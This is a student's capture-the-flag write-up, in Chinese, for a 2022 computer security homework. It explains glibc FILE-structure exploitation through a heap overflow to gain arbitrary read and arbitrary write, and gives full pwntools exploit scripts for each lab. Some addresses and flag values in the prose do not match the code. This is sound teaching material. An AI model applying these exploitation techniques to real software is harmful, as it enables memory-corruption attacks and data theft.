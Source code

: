 # 2022 Computer Security HW8 Writeup - Pwn

[![hackmd-github-sync-badge](https://hackmd.io/YSOLbi79QWaq6TEt-T6HnQ/badge)](https://hackmd.io/YSOLbi79QWaq6TEt-T6HnQ)

* [HW8 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/Homework-08)


## FILE_AAR - LAB

* 觀察了一下題目，可以發現可以利用的部分是 `buf` 這個參數，因為其只有 malloc `0x10` 這個大小卻在下面 read 了 `0x1000` 的資料，這會造成對 `fp` 內容的 overwrite，允許我們任意建構 `FILE` struct 的內容，因此我們的目標為 **任意讀取 (AAR)** 到 `flag`，並且將資料印出到 `stdout` (or `stderr`)。
* 這邊先用 `checksec` 來檢查檔案的安全性設定，可以看到沒有 `PIE` 跟 `STACK CANARY`，所以首先等於可以用 `objdump` or `ida` 先直接看記憶體位置 (絕對位置)，然後可以不用考慮 Leak Canary 的問題。
    > ![](https://i.imgur.com/zZzPJ3D.png)
* 因為上課有提過 `malloc` 的 `buf` 跟 `fp` 的 chunk 會連著，所以可以直接蓋到 `fp` 的內容，並且根據投影片敘述的 `FILE` 結構我們可以堆出我們想要的值。
    > ![](https://i.imgur.com/NCw5lTN.png)
    > ![](https://i.imgur.com/PNk0oSt.png)
* 而因為 `flags` 的結果是 `0xfbad0800`
    * `flags &= ~NO_WRITES` 為 unset `NO_WRITES`，讓其可寫入。
    * `flags |= (MAGIC | CURRENTLY_PUTTING)` 為確定結構正常的 (`MAGIC`) 和目前正在寫入 (`CURRENT_PUTTING`)。
    * `read_end = write_base = <target_address>` 是為了不讓讀寫的區域重疊。
    * 找到了 `target_address` 為 `flag` 的 address (如下圖) 之後，就可以建構我的們 chunk 跟 payload 了
        > ![](https://i.imgur.com/56Gcnk2.png)
        ```python=
        from pwn import *

        context.arch = 'amd64'
        r = remote("edu-ctf.zoolab.org", 10010)

        flag_addr = 0x0404050

        # chunk
        fake_chunk = flat(
            b'aaaaaaaa', b'aaaaaaaa',  # buf data
            b'aaaaaaaa', 0xc0,
            0xfbad0800,                # flags
            0x0,	                   # read_ptr
            flag_addr,	               # read_end
            0x0,	                   # read_base
            flag_addr,	               # write_base
            flag_addr + 0x100,	       # write_ptr
            0x0,	                   # write_end
            0x0,	                   # buf_base
            0x0,	                   # buf_end
            0x0, 0x0, 
            0x0, 0x0,
            0x0,	                   # chain
            0x1,	                   # fileno 
        )

        r.send(fake_chunk)
        r.interactive()
        ```
        > ![](https://i.imgur.com/g8vqmSK.png)
* 可以拿到 flag: `FLAG{QAQ...}`


## FILE_AAW - LAB

* 觀察題目可以看到一樣是 `buf` 可以 overflow 來覆寫 `fp` 的內容的 code，其目標是只要 `owo` 這個變數的內容不等於 `OWO!`，就會把 `flag` 顯示給我們看了，因此目標就是覆蓋到 `owo` 的資料。
* 今天目標是 **任意撰寫 (AAW)** 代表把從 stdin 的資料寫到特定地址，所以要控制的是 fread 的執行流程。一樣看一下 ppt 截圖的環境設置部分
    > ![](https://i.imgur.com/rwfuy51.png)
* 起手式一樣先檢查檔案有哪些保護，從下列截圖可以看到一樣沒有 PIE 跟 CANARY，所以一樣可以用 `objdump` or `ida` 先直接看記憶體位置 (絕對位置)，然後可以不用考慮 Leak Canary 的問題。
    > ![](https://i.imgur.com/J9Bw9Jy.png)
    * 其中 `flags` 的結果一樣是 `0xfbad000`
        * `flags &= ~(NO_READ | EOF_SEEN)` 為 unset，這兩個的意思就是讓他可以讀和沒有吃到 EOF
    * 一樣用 IDA 直接開找到目標 address 如下圖為 `0x0404060`
        > ![](https://i.imgur.com/r5cqiMw.png)
* 找到了 `target_address` 為 `owo` 的 address (如上圖) 之後，就可以依照上面一提的邏輯建構 chunk 跟 payload 了。
    ```python=
    from pwn import *

    context.arch = 'amd64'
    r = remote("edu-ctf.zoolab.org", 10009)

    owo_addr = 0x0404070

    fake_chunk = flat(
        b'aaaaaaaa', b'aaaaaaaa',    # buf data
        b'aaaaaaaa', 0xc0,
        0xfbad0000,                  # flags
        0x0,	                     # read_ptr
        0x0,	                     # read_end
        0x0,	                     # read_base
        owo_addr,	                 # write_base
        0x0,	                     # write_ptr
        0x0,	                     # write_end
        owo_addr,	                 # buf_base
        owo_addr + 0x100,	         # buf_end
        0x0, 0x0, 
        0x0, 0x0,
        0x0,	                     # chain
        0x0,	                     # fileno 
    )

    r.send(fake_chunk)
    r.interactive()
    ```
    > ![](https://i.imgur.com/840GQLa.png)
* 可以拿到 flag: `FLAG{sushi}`


---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>